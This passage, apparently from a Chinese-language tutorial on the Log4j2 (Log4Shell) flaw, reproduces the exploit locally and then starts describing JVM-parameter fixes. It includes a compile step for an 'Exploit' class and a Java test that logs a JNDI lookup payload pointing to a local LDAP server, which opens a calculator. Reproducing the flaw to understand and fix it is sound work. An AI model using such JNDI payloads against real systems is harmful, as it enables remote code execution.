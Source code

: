   编译成class文件供上述服务提供：

   ```
   $ javac Exploit
   ```

3. 打印日志测试

   ```java
   public class Log4jBugTest {
       private static final Logger logger = LogManager.getLogger(Log4jBugTest.class);
       public static void main(String[] args) {
           logger.error("${jndi:ldap://localhost:8888/#Exploit}");
       }
   }
   ```
   
4. 然后我们就可以看到计算器被打开了

   ![image-20211215230444415](Log4j2%E6%BC%8F%E6%B4%9E_assets/exploit_reproduce_localhost.png)

**我们可以看到，这里地址是localhost，class文件是打开计算器命令，如果地址换成攻击者的地址，class文件也替换掉，那将非常危险。**

## 修复

### 临时方案

- JVM参数关闭Lookup

  一些软件可能需要一定时间替换最新版本，可以通过设置JVM启动参数的方式临时解决：
